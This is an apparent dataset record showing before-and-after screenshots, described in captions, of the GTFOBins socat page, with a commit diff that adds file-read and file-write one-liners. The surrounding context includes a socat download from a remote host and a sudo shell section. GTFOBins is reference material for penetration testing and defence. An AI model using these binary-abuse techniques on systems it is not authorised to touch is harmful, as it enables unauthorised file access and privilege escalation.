

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide and 900 px high, scrolled down 1100 px. Shown: the top 890 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add socat file-read/write
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -29,6 +29,14 @@ functions:
         RPORT=12345
         LFILE=file_to_save
         socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        socat -u "file:$LFILE" -
+  file-write:
+    - code: |
+        LFILE=file_to_write
+        socat -u 'exec:echo DATA' "open:$LFILE,creat"
   sudo:
     - description: The resulting shell is not a proper TTY shell and lacks the prompt.
       code: |
```
